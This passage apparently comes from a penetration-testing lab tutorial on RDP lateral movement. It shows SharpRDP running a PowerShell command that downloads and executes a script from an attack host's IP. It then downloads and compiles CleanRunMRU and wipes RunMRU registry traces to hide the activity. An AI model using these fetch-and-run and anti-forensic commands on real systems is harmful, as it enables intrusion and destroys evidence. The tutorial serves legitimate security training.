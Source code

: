 ```powershell-session
PS C:\Tools> .\SharpRDP.exe computername=srv01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" username=inlanefreight\helen password=RedRiot88
[+] Connected to          :  srv01
[+] Execution priv type   :  non-elevated
[+] Executing powershell.exe iex(new-object net.webclient).downloadstring('http://10.10.14.207/s')
[+] Disconnecting from    :  srv01
[+] Connection closed     :  srv01
```

**Note:** The execution of commands of `SharpRDP` is limited to 259 characters.

`SharpRDP` uses Microsoft Terminal Services to execute commands, leaving traces of command execution within the `RunMRU` registry key (`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` or `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`). We can use [CleanRunMRU](https://github.com/0xthirteen/CleanRunMRU) to clean all command records. To compile the tool, we can use the built-in Microsoft [csc](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/) compiler tool. First, let's transfer CleanRunMRU's `Program.cs` file from our attack host to the target computer:

```powershell-session
PS C:\Tools> wget -Uri http://10.10.14.207/CleanRunMRU/CleanRunMRU/Program.cs -OutFile CleanRunMRU.cs
```

Now we can use `csc.exe` to compile it:

```powershell-session
PS C:\Tools> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\CleanRunMRU.cs
Microsoft (R) Visual C# Compiler version 4.7.3190.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
```

Now we can use `CleanRunMRU.exe` to clear all commands:

```powershell-session
PS C:\Tools> .\CleanRunMRU.exe  clearall
HKCU:Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
[+] Cleaned all RunMRU values
```

## Advantages of RDP for Lateral Movement

RDP provides several advantages for lateral movement, making it a preferred method for attackers in certain scenarios. Some of the key advantages include:

- `Evade Detection`: RDP traffic is common in business environments, making it less likely to raise suspicion.
- `Non-Admin Access`: RDP access does not necessarily require administrative rights; a non-admin user can also have RDP access.
- `Persistent Access`: Once a foothold is established, RDP can provide persistent access to the network.